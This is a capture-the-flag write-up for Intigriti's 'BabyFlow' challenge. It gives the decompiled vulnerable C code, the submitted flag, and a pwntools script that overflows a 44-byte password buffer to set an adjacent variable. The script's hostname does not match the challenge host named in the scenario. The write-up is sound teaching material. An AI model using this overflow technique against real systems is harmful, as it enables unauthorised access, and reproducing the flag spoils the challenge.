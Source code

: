 ```yaml
---
title: BabyFlow
categories: 
  - Miscellaneous
  - "Binary Exploitation"
tags: 
completedDuringEvent: true
submitted: true
flags: flag: INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}
draft: false
---
```

## Scenario

> Does this login application even work?!
>
> `nc babyflow.ctf.intigriti.io 1331`

By CryptoCat

## Solution

The binary is a simple program that reads a password from the user and compares it to a hardcoded password. If the password is correct and the variable `v5` is non-zero, it prints the flag. The input buffer is 50 bytes long, and the variable `s` length is 44 bytes. We can overflow the buffer and overwrite the variable `v5` to a non-zero value to get the flag.

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[44]; // [rsp+0h] [rbp-30h] BYREF
  int v5; // [rsp+2Ch] [rbp-4h]

  v5 = 0;
  printf("Enter password: ");
  fgets(s, 50, _bss_start);
  if ( !strncmp(s, "SuPeRsEcUrEPaSsWoRd123", 0x16uLL) )
  {
    puts("Correct Password!");
    if ( v5 )
      puts("INTIGRITI{the_flag_is_different_on_remote}");
    else
      puts("Are you sure you are admin? o.O");
    return 0;
  }
  else
  {
    puts("Incorrect Password!");
    return 0;
  }
}
```

To exploit this, we need to send a password that matches the hardcoded one and then add additional bytes to overflow the buffer and set `v5` to a non-zero value. We can use the `cyclic` function from the `pwntools` library to generate the necessary padding.

Here is a Python script to achieve this:

```py
from pwn import *

r = remote('irrorversible.ctf.intigriti.io', 1331)

r.recvuntil(b'Enter password: ')

password = b'SuPeRsEcUrEPaSsWoRd123'
payload = flat([
    password,
    cyclic(44 - len(password))
])

r.sendline(payload)

r.interactive()
```
